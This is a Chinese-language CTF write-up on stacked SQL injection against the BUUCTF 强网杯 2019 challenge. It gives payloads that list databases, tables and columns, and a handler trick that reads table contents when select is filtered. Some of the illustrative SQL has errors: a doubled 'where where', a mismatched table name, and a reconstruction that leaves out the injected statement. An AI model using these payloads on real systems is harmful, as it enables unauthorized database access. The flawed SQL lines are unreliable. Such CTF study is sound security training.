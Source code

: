 ```yaml
---
title: 堆叠注入
createTime: 2025/03/22 23:57:18
permalink: /ctf/uxirxn3d/
---
```

> 例题：BUUCTF \[强网杯 2019\]随便注

## 查数据库名

```txt
1'; show databases; #
```

```sql
select * from user where name ='1'; show databases; #
```

结果：

![alt text](image/3.堆叠注入/1742660003569.png)

## 查表名

```txt
1'; show tables; #
```

或

```txt
1'; show tables from supersqli; #
```

```sql
select * from user where name = '1'; #
```

结果：

![alt text](image/3.堆叠注入/1743076859000.png)

## 查字段名

```txt
1'; show columns from `1919810931114514`; #
```

```sql
select * from user where where name = '1'; show columns from `191981093114514`; #
```

> 关于在这里使用 \` 而不是 \' 的一些解释：
>
> 两者在linux下和windows下不同，linux下不区分，windows下区分。
>
> 单引号 \' 或双引号主要用于字符串的引用符号。
>
> 反勾号 \` 数据库、表、索引、列和别名用的是引用符是反引号。
>
> ***有MYSQL保留字作为字段的，必须加上反引号来区分！！！***
>
> ***如果是数值，请不要使用引号。***

## 查字段内容

用 `handler` 代替被禁用的 `select` 进行查询：

```txt
1'; handler `1919810931114514` open as `a`; handler a read next; #
```

```sql
select * from user where where name = '1'; handler `1919810931114514` open as `a`; handler a read next; #
```

结果：

![alt text](image/3.堆叠注入/1743077859575.png)

## ***Cracked.***

::: tip
本题还有其他很多解题思路，等待以后来补全......
:::
